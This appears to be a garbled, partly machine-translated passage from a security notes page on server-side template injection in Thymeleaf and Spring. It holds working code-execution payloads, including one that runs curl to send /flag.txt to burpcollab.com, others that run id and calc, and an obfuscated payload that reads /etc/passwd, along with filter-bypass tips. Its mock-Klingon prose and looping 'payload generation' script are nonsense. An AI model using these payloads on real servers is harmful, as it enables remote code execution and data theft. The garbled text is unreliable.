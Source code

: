 Дастур коди снеппети кўришни олинг, унда ишлатиш учун мухтож бўлиши мумкин:
```xml
<a th:href="@{__${path}__}" th:title="${title}">
<a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('curl -d @/flag.txt burpcollab.com')}" th:title='pepito'>
```
**Klingon Translation:**

**Qapla'!** QaghmeylIj vItlhutlhlaHbe'chugh, vaj template engine vItlhutlhlaHbe'chugh, vaj 'oHmeyDaq remote code execution vItlhutlhlaHbe'chugh, URLs vItlhutlhlaHbe'chugh:
```
http://localhost:8082/(7*7)
http://localhost:8082/(${T(java.lang.Runtime).getRuntime().exec('calc')})
```
**Qapla'!**

* [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)

{% content-ref url="el-expression-language.md" %}
[el-expression-language.md](el-expression-language.md)
{% endcontent-ref %}

### Spring Framework (Java)
```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```
**Bypass filters**

Multiple variable expressions can be used, if `${...}` doesn't work try `#{...}`, `*{...}`, `@{...}` or `~{...}`.

* Read `/etc/passwd`
```java
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
* **Custom Script for payload generation**

  ```
  DaH jImej:
    1. QaH jImejDaq 'payload' De'vam:
        - 'payload' De'vam = 'payload' De'vam.replace('a', 'a|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('b', 'b|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('c', 'c|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('d', 'd|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('e', 'e|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('f', 'f|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('g', 'g|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('h', 'h|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('i', 'i|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('j', 'j|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('k', 'k|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('l', 'l|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('m', 'm|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('n', 'n|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('o', 'o|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('p', 'p|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('q', 'q|{{7*7}}')
        - 'payload' De'vam = 'payload' De'vam.replace('r', 'r|{{config}}')
        - 'payload' De'vam = 'payload' De'vam.replace('s', 's|{{7*7}}')
  ```